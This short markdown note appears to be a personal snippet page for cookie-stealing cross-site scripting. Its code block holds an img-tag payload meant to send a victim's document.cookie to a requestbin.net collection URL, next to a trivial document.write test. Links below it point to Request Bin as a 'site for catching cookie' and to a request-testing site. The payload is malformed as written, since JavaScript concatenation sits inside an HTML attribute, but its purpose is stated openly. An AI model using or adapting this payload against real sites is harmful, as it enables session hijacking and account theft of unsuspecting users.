 
#H1 Script 

```javascript
<img src="http://requestbin.net/r/zacnyyza?PARAMSPECIAL2=".concat(document.cookie)/>
<script> document.write("Hello World!"); </script>

```

#H1 Site for catching cookie
[Request Bin](http://requestbin.net/)

#H1 Site for test catching
[ReqBin](https://reqbin.com/)





